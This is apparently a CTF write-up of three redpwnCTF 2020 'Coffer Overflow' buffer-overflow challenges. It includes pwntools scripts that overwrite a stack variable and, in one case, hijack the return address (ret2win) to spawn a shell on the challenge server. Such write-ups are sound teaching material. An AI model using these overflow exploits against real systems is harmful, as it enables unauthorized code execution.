 ## Coffer Overflow 0

Read source, there's a code var.

It's set to 0. At the end, if it's not 0, a shell is popped.

Literally HQ chall lol, just spam chars and a shell pops, cat flag.txt

<hr>

## Coffer Overflow 1
Same thing, except code must be 0xcafebabe.

Let's disassemble main, we'll find the difference between our input(rbp-0x20) and the var(rbp-0x8) is 24 bytes, so send 24 bytes + p64(0xcafebabe)

```python
from pwn import *
#p = process("./over0")
p = remote('2020.redpwnc.tf', 31255)
NUM_TO_VAR = 24
payload = b'A' * NUM_TO_VAR + p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

<hr>

## Coffer Overflow 2



ret2win exploit. There's a function called binFunction.

Our input is at rbp-0x10, so 0x10 + 8 bytes until return address.

Overwrite return address with address of binFunction, which pops a shell.

```python
from pwn import *
e = ELF("./over2")
NUM_TO_RET = 0x10 + 8
padding = b'A' * NUM_TO_RET
retgadget =  0x000000000040053e # ret
payload = flat(padding, retgadget, e.symbols['binFunction'], word_size=64)
#p = e.process()
p = remote('2020.redpwnc.tf', 31908)
p.sendline(payload)
p.interactive()
```
